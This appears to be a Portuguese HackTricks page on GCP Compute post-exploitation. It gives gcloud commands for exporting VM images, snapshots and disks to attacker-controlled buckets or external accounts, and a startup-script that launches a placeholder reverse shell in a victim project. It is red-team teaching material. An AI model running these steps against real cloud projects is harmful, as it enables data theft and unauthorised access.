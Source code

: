 # GCP - Compute Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Compute

Para mais informações sobre Compute e VPC (Rede) confira:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar e Inspecionar Imagens localmente

Isso permitiria que um atacante **acessasse os dados contidos dentro de imagens já existentes** ou **criasse novas imagens de VMs em execução** e acessasse seus dados sem ter acesso à VM em execução.

É possível exportar uma imagem de VM para um bucket e depois baixá-la e montá-la localmente com o comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Antes de realizar esta ação, o atacante pode precisar de privilégios sobre o bucket de armazenamento e, com certeza, **privilégios sobre o cloudbuild**, pois é o **serviço** que será solicitado para realizar a exportação.\
Além disso, para que isso funcione, o SA do codebuild e o SA do compute precisam de permissões privilegiadas.\
O SA do cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` precisa de:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

E o SA `<project-id>-compute@developer.gserviceaccount.com` precisa de:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportar e Inspecionar Snapshots e Discos localmente

Não é possível exportar snapshots e discos diretamente, mas é possível **transformar um snapshot em um disco, um disco em uma imagem** e, seguindo a **seção anterior**, exportar essa imagem para inspecioná-la localmente.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspecionar uma Imagem criando uma VM

Com o objetivo de acessar os **dados armazenados em uma imagem** ou dentro de uma **VM em execução** de onde um atacante **criou uma imagem,** é possível conceder a uma conta externa acesso à imagem:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e então crie uma nova VM a partir disso:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se você não puder conceder acesso à sua conta externa sobre a imagem, poderá iniciar uma VM usando essa imagem no projeto da vítima e **fazer os metadados executarem um reverse shell** para acessar a imagem adicionando o parâmetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecionar um Snapshot/Disk anexando-o a uma VM

Com o objetivo de acessar os **dados armazenados em um disco ou um snapshot, você poderia transformar o snapshot em um disco, um disco em uma imagem e seguir os passos anteriores.**

Ou você poderia **conceder acesso a uma conta externa** sobre o disco (se o ponto de partida for um snapshot, conceda acesso sobre o snapshot ou crie um disco a partir dele):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Anexar o disco** a uma instância:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montar o disco dentro da VM:

1.  **SSH na VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identificar o Disco**: Uma vez dentro da VM, identifique o novo disco listando os dispositivos de disco. Normalmente, você pode encontrá-lo como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatar e Montar o Disco** (se for um disco novo ou bruto):
*   Crie um ponto de montagem:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Monte o disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Se você **não puder dar acesso a um projeto externo** ao snapshot ou disco, pode ser necessário **realizar essas ações dentro de uma instância no mesmo projeto que o snapshot/disco**.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
